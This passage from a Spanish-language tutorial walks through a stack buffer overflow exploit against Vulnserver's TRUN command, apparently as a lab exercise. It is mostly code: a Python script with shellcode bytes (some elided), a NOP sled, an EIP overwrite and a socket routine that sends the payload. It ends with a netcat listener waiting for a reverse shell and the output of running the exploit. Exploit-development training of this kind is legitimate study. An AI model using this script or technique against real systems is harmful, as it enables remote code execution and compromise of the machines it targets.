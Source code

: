 ```python
b"\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x2c\xf2\x3b\xd0\x2c"
b"\x1c\x39\x1b\xcc\xdd\x5e\x95\x29\xec\x5e\xc1\x3a\x5f\x6f"
...
...
...
...

after_eip = b"\x90"*16 + shellcode

payload = b"TRUN /.:/" + before_eip + eip + b"\x83\xEC\x10" + after_eip

def exploit():

        # Creando conexión y enviando shellcode
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_addr, port))

        # Recibiendo banner
        banner = s.recv(1024)
        print(f"\n[+] Recibiendo Banner: \n------\n{banner.decode('utf-8', errors='ignore')}\n------\n")

        # Enviando payload
        s.send(payload)

        # Cerrando conexión
        s.close()

if __name__ == '__main__':

        exploit()
```
En este caso, puedes probar con tu **máquina virtual Windows** o ya con la **máquina víctima** que esta ejecutando el binario.

Yo lo probaré con mi **máquina virtual Windows**.

Abre una **netcat** en conjunto con la herramienta **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Ejecuta el Exploit:

```bash
python3 exploitVulnserver.py

[+] Recibiendo Banner: 
------
Welcome to Vulnerable Server! Enter HELP for help.

------
```
